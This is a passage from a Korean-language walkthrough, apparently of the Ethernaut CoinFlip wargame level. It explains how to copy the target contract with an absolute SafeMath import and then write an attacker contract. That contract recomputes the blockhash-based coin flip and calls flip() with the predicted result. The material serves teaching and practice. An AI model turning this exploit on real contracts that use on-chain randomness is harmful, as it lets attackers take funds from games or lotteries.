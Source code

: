 ```solidity
      return false;
    }
  }
}
```

먼저 문제 컨트랙트의 솔리디티 코드를 복사해서 가져온다. 그래야 컨트랙트 내에서 이 CoinFlip 컨트랙트(클래스)로 인스턴스를 받을 수 있기 때문이다.

이 때 import를 주의해야 하는데  문제 컨트랙트에서는 SafeMath를 사용하다보니 이를 import 해야한다. 근데 문제 컨트랙트에서는 상대주소로 되어있어서 우리가 그대로 가져오면 SafeMath 를 import할 수 없으므로 절대 경로로 바꿔 줘야한다.

그러면 이제 공격 컨트랙트를 이어서 작성해주면 된다.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;
import 'https://github.com/OpenZeppelin/openzeppelin-contracts/blob/6be0b410dcb77bc046cd3c960b4170368c502162/contracts/math/SafeMath.sol';

contract CoinFlip {
  using SafeMath for uint256;
  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
  constructor() public {
    consecutiveWins = 0;
  }
  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));
    if (lastHash == blockValue) {
      revert();
    }
    lastHash = blockValue;
    uint256 coinFlip = blockValue.div(FACTOR);
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}

contract CoinFlipAttack {
  using SafeMath for uint256;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
  CoinFlip public coinflip;
  bool guess;
  constructor(address _coinflipaddr) public {
    coinflip = CoinFlip(_coinflipaddr); 
  }

  function attack() public returns (bool) {

      uint256 blockValue = uint256(blockhash(block.number.sub(1)));
      uint256 coinFlip = blockValue.div(FACTOR);
      guess = coinFlip == 1 ? true : false;   

      coinflip.flip(guess);
      
    } 
  }
```